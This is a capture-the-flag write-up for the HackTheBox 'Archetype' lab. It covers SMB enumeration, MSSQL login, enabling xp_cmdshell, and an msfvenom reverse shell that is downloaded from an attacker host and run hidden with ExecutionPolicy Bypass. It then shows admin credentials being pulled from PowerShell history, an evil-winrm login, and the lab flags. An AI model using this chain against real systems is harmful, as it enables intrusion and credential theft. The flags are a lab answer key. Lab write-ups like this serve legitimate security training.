

# 🪟 Archetype — HTB Starting Point


> **TL;DR** — An anonymous SMB share exposes a config file with the MSSQL password → log in via `mssqlclient.py` → enable and abuse `xp_cmdshell` for RCE → reverse shell → administrator password from PowerShell history → root via `evil-winrm`.

**Tags:** `SMB` · `MSSQL` · `xp_cmdshell` · `Impacket` · `PowerShell history` · `WinRM`

---

## 1. Which TCP port is hosting a database server?

Full port scan with `nmap`:

```bash
nmap -sV -p- --open 10.129.130.2
```

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0
...
```

> **Answer:** `1433`

## 2. Name of the non-Administrative SMB share

```bash
smbclient -L 10.129.130.2
```

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

> **Answer:** `backups`

## 3. Password identified on the SMB share

Connect anonymously and pull the file for local analysis:

```bash
smbclient \\\\10.129.130.2\\backups
```



> **Answer:** `M3g4c0rp123`

## 4–6. Tooling (theory)

| Question | Answer |
|---|---|
| Impacket script to connect to MSSQL | `mssqlclient.py` |
| MSSQL procedure that spawns a shell | `xp_cmdshell` |
| Script to search for Windows privesc paths | `winpeas` |

## 7. File containing the administrator's password

Connect to MSSQL with the recovered password:

```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.130.2 -windows-auth
```

`xp_cmdshell` is disabled by default — enable it via `sp_configure` ([HackTricks](https://hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html)):

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';   -- archetype\sql_svc
```

For a more comfortable shell, generate a reverse shell and stage it on the host:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.19 LPORT=4444 -f psh-reflection > shell.ps1
python3 -m http.server 80   # server hosting shell.ps1
nc -lvnp 4444               # listener
```

```sql
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.15.19/shell.ps1 -OutFile C:\Windows\Temp\shell.ps1"';
EXEC xp_cmdshell 'powershell -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Windows\Temp\shell.ps1';
```

With a shell, hunt for the admin password. Check PowerShell history:

```powershell
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\powershell\PSreadline\ConsoleHost_history.txt
```

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

> **Answer:** `ConsoleHost_history.txt` → password `MEGACORP_4dm1n!!`

## 8. User flag (`sql_svc`)

> `3e7b102e78218e935bf3f4951fec21a3`

## 9. Administrator flag

The current session can't access the Administrator directory. Using the open port `5985`, log in as admin via `evil-winrm`:

```bash
evil-winrm -i 10.129.130.2 -u administrator -p 'MEGACORP_4dm1n!!'
```

```powershell
type ..\Desktop\root.txt   # b91ccec3305e98240082d4474b848528
```

> `b91ccec3305e98240082d4474b848528`

---

## 🚩 Flags

| | |
|---|---|
| **User** | `3e7b102e78218e935bf3f4951fec21a3` |
| **Root** | `b91ccec3305e98240082d4474b848528` |
